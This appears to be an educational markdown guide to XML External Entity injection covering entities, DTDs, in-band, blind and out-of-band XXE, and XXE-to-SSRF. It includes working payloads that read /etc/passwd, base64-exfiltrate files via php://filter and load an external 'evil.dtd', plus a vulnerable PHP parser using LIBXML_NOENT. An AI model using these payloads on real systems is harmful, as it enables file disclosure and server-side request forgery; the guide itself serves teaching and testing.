> [!info] Improper Restriction of XML External Entity Reference  
> **CWE-611: Improper Restriction of XML External Entity Reference**
> 
> **XXE (XML External Entity Injection)** is a vulnerability that occurs when an application processes attacker-controlled XML and the XML parser allows external entity resolution.
> 
> XXE can potentially lead to:
> 
> - Local File Disclosure
>     
> - Server-Side Request Forgery (SSRF)
>     
> - Access to internal services
>     
> - Sensitive information disclosure
>     
> - Denial of Service
>     
> 
> The vulnerability is not caused by XML itself. The problem is the combination of **untrusted XML input** and an **insecure XML parser configuration**.

![[Pasted image 20260811162254.png]]

## What is XML?

**XML (Extensible Markup Language)** is a structured data format used to represent and exchange information between systems.

A simple XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>adolfcna</instagram>
</owasp>
```

The structure consists of elements.

For example:

```xml
<username>adolfcna</username>
```

Here:

```text
username
    ↓
Element name

adolfcna
    ↓
Element value
```

Applications can receive XML from a client and pass it to an XML parser.



> [!warning]  
> XML is not inherently vulnerable.
> 
> The vulnerability appears when an application allows an attacker to control XML input and the parser is configured to resolve external entities.

---

## What is a DTD?

**DTD (Document Type Definition)** defines the structure and rules of an XML document.

A DTD can define:

- Allowed elements
    
- Document structure
    
- Entities
    

Example:

```xml
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
]>
```

The `DOCTYPE` declaration defines the document type.

A DTD can also define entities.

---

## What is an Entity?

An **XML Entity** is a named piece of data that can be referenced inside an XML document.

For example:

```xml
<!ENTITY bar "@changed">
```

This creates an entity named:

```text
bar
```

The entity can then be referenced using:

```xml
&bar;
```

The XML parser replaces the entity reference with its value.

Complete example:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar "@changed">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

The parser interprets:

```xml
&bar;
```

as:

```text
@changed
```

Therefore the application may return:

```text
adolfcna
example@gmail.com
@changed
```

This is normal XML entity functionality.

The security problem begins when an entity references an external resource.

---

## Internal Entity vs External Entity

### Internal Entity

An internal entity contains its value directly inside the DTD.

```xml
<!ENTITY bar "@changed">
```

The value is:

```text
@changed
```

No external resource is accessed.

### External Entity

An external entity references a resource using a **SYSTEM identifier**.

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

The entity no longer contains a normal string.

Instead, it instructs the parser to resolve an external resource.



---

## What is SYSTEM?

The `SYSTEM` keyword tells the XML parser that the entity value should be obtained from an external resource.

Example:

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

The resource can potentially be identified using different URI schemes depending on the parser and environment.

Examples include:

```text
file://
http://
https://
```

Some environments may support additional schemes.

> [!warning]  
> Supported URI schemes depend on the XML parser, programming language, configuration, and security restrictions.

---

## What is XXE?

**XML External Entity Injection (XXE)** occurs when an attacker can control XML input and cause the XML parser to resolve an external entity.

The basic concept is:



The attacker does not directly access the resource.

Instead:

```text
Attacker
    ↓
Web Application
    ↓
XML Parser
    ↓
External Resource
```

The server performs the resource access on behalf of the attacker.

---

## PHP Example

Consider the following PHP application:

```php
<?php

$myXMLData = file_get_contents('php://input');

$data = simplexml_load_string(
    $myXMLData,
    null,
    LIBXML_NOENT
) or die("Error: Cannot create object");

echo $data->username, "\n";
echo $data->email, "\n";
echo $data->instagram, "\n";
```

The application:

1. Reads XML from the HTTP request.
    
2. Passes the XML to `simplexml_load_string()`.
    
3. Enables entity substitution with `LIBXML_NOENT`.
    
4. Prints values from the parsed XML.
    

The important option is:

```text
LIBXML_NOENT
```

This enables entity substitution during parsing.

> [!danger]  
> If external entity processing is also permitted, attacker-controlled XML may be able to trigger unintended resource access.

---

## XXE File Disclosure

A common impact of XXE is **Local File Disclosure**.

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY bar SYSTEM "/etc/passwd">
]>

<owasp>
    <username>adolfcna</username>
    <email>example@gmail.com</email>
    <instagram>&bar;</instagram>
</owasp>
```

The important part is:

```xml
<!ENTITY bar SYSTEM "/etc/passwd">
```

The entity is then referenced:

```xml
&bar;
```

```bash
# curl -H "content-type:application/xml" example.com/xml.php -d "$(cat .\payloadxml.txt)"
```

If the parser resolves the entity, it may attempt to read the referenced resource.

If the application includes the resolved value in its response, the attacker may receive the file contents.



---

## Normal / In-Band XXE

The first major category is **In-Band XXE**.

In this situation, the result of entity resolution is returned directly through the application's normal response.



For example, if an external entity references a readable local resource and the application reflects that value in the response, the attacker can directly see the result.

This is why In-Band XXE is generally easier to identify and exploit.

---

## Blind XXE

The second major category is **Blind XXE**.

In Blind XXE, the application processes the external entity but does not return the resolved data directly in the HTTP response.

For example:

```text
Attacker
    ↓
Web Application
    ↓
XML Parser
    ↓
External Resource
```

The attacker does not see the resource contents in the application's response.

Therefore, another communication channel may be necessary.

This is where **Out-of-Band (OOB)** techniques become useful.

---

## Blind XXE + Out-of-Band

An OOB technique uses an external server controlled by the tester to detect interactions from the vulnerable application.



The important difference is that the vulnerable application does not need to return the result directly.

Instead:

```text
Application
    ↓
External Server
    ↓
Attacker
```

The external interaction can confirm that the XML parser attempted to resolve an external resource.

> [!tip]  
> **In-Band XXE:** Data comes back through the application's response.
> 
> **Blind XXE:** Data is not directly returned.
> 
> **OOB XXE:** An external interaction channel is used to detect or retrieve information from the vulnerable parser.

---

## XXE + SSRF

External entities do not necessarily have to reference local files.

If the parser supports network-based URI schemes, an external entity may cause the server to make a network request.

Example:

```xml
<!ENTITY bar SYSTEM "http://example.com/owasp.txt">
```

When the parser resolves:

```xml
&bar;
```

the server may request:

```text
http://example.com/owasp.txt
```

This creates an **XXE-to-SSRF** scenario.



Potential targets may include:

```text
Internal applications
Internal APIs
Local services
Cloud metadata endpoints
Other network-accessible services
```

> [!warning]  
> XXE-to-SSRF does not automatically mean that every internal service is reachable.
> 
> The result depends on network connectivity, firewall rules, parser behavior, supported URI schemes, DNS resolution, and application privileges.

---

## XXE File Reading Problems

Directly reading a file does not always work cleanly.

Consider a file containing:

```text
<?php
echo "<h1>Hello</h1>";
?>
```

Characters such as:

```text
<
>
&
```

have special meaning in XML.

If the file contents are inserted into the XML document, the parser may interpret those characters as XML markup.

This can cause:

- XML parsing errors
    
- Truncated output
    
- Invalid XML
    
- Unexpected parser behavior
    



The exact behavior depends on the parser and how the resulting entity value is inserted into the XML document.

---

## PHP `php://filter`

In PHP environments, `php://filter` can sometimes be used to transform resource contents before they are returned.

A common transformation is:

```text
convert.base64-encode
```

Conceptually:

```text
Original File
    ↓
Base64 Encoding
    ↓
XML-Safe Representation
```

Example:

```xml
<!ENTITY bar SYSTEM
"php://filter/read=convert.base64-encode/resource=/path/to/file">
```

The result is Base64-encoded data instead of the original file contents.

The data can then be decoded:

```bash
echo 'BASE64_DATA' | base64 -d
```

> [!warning]  
> `php://filter` is a PHP-specific mechanism. It is not a generic XML or XXE feature and depends on the PHP environment and available stream wrappers.

---

## CDATA

**CDATA** stands for **Character Data**.

CDATA allows characters that normally have special meaning in XML to be treated as character data.

Example:

```xml
<data>
    <![CDATA[
        <h1>Hello</h1>
        <script>test</script>
    ]]>
</data>
```

Inside CDATA, characters such as:

```text
<
>
&
```

are treated as data rather than normal XML markup.

The general concept is:



---

## Why Simple CDATA Construction Can Fail

A tempting approach is to combine:

```text
CDATA Start
+
External File
+
CDATA End
```

Conceptually:

```text
<![CDATA[
    FILE CONTENT
]]>
```

However, XML DTD processing has restrictions around the interaction between internal and external entities.

A simple combination such as:

```xml
<!ENTITY start "<![CDATA[">
<!ENTITY file SYSTEM "/path/to/file">
<!ENTITY end "]]>">
```

may not work as expected.

The reason is that XML entity replacement and DTD declaration rules restrict how external entity content can be combined with internal entity declarations.

This is where **Parameter Entities** become important.

---

## Parameter Entities

Parameter entities are entities intended to be used inside a DTD.

A normal general entity uses:

```text
&name;
```

A parameter entity uses:

```text
%name;
```

Example:

```xml
<!ENTITY % test "<!ENTITY bar 'voorivex'>">
%test;
```

The parameter entity:

```text
%test;
```

is expanded inside the DTD.

Conceptually:



The distinction is:

```text
General Entity
&name;
↓
Used in XML document content


Parameter Entity
%name;
↓
Used inside DTD
```

---

## External DTD

A **DTD can also be loaded externally**.

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root [
    <!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">
    %dtd;
]>

<owasp>
    <username>adolfcna</username>
    <email>adolfcna@gmail.com</email>
    <instagram>&all;</instagram>
</owasp>
```

The important parts are:

```xml
<!ENTITY % dtd SYSTEM "http://example.com/evil.dtd">
```

and:

```xml
%dtd;
```

The parser loads the external DTD and processes its declarations.

Conceptually:



---

## External DTD + Parameter Entities

An external DTD can contain additional entity definitions.

For example:

```text
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff SYSTEM "/path/to/file">
<!ENTITY % end "]]>">
```

These parameter entities can then be used to construct another entity:

```text
<!ENTITY all "%start;%stuff;%end;">
```

Conceptually, the parser attempts to construct:

```text
<![CDATA[
    FILE_CONTENT
]]>
```

This technique is useful for understanding why **parameter entities** and **external DTDs** appear frequently in advanced XXE research.

> [!danger]  
> The exact behavior of these techniques varies significantly between XML parsers. A payload that works against one parser may fail against another.

---

## XXE Attack Categories

The entire topic can be organized into two major categories:



Another useful classification is based on impact:



---

## Complete XXE Flow



---

## Detection Logic

When testing an application for XXE, the important questions are:

```text
1. Does the application accept XML?

2. Can the attacker control the XML document?

3. Does the parser process DOCTYPE declarations?

4. Does the parser resolve entities?

5. Are external entities enabled?

6. Can the parser access local resources?

7. Can the parser make network requests?

8. Does the application return the resolved value?

9. If not, can an OOB interaction be observed?
```

The fundamental test is therefore:



---

> [!success] Key Takeaways
> 
> - XML is a structured data format used to exchange information between applications.
>     
> - DTDs define XML structure and can also define entities.
>     
> - Entities are named pieces of data referenced inside XML.
>     
> - General entities use `&name;`.
>     
> - Parameter entities use `%name;` and are used inside DTDs.
>     
> - External entities can reference external resources using a `SYSTEM` identifier.
>     
> - XXE occurs when attacker-controlled XML is processed by an XML parser that permits unsafe external entity resolution.
>     
> - **In-Band XXE** returns the result through the normal application response.
>     
> - **Blind XXE** does not directly return the result.
>     
> - **Out-of-Band XXE** uses an external interaction channel to detect or retrieve information.
>     
> - XXE can potentially lead to Local File Disclosure.
>     
> - XXE can potentially be chained into SSRF.
>     
> - PHP's `php://filter` can sometimes be used to encode file contents before processing.
>     
> - CDATA treats XML-sensitive characters as character data.
>     
> - Parameter entities and external DTDs are important concepts in advanced XXE research.
>     
> - XXE behavior depends heavily on the XML parser and its configuration.
>     
> - The primary CWE is **CWE-611: Improper Restriction of XML External Entity Reference**.
>